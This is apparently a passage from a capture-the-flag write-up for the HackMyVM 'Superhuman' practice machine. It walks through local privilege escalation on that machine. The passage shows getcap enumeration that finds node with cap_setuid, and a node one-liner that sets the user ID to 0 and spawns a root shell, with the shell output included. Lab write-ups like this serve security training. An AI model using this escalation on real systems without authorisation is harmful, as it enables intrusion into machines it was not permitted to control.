 ```shell
fred@superhuman:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/node = cap_setuid+ep
```

#### >> Look at <a href="https://gtfobins.github.io/gtfobins/node/"> GTFObins </a> for file capabilities

![GTFObins](https://github.com/0xsynix/Writeups/blob/main/assets/HackMyVM/Superhuman/2.png)

- And found a way to escalate privileges
```shell
fred@superhuman:~$ /usr/bin/node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
# whoami
root
# id
uid=0(root) gid=1000(fred) groups=1000(fred),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

- And BOOM 💥 we got the ROOT shell!!
- Don't try to run `ls` it will terminate the shell! 🙂

```shell
# cd /root
# find / -name root* 2>/dev/null
/root/root.txt
# 
```

- And that's how we got the root flag!!! 👾
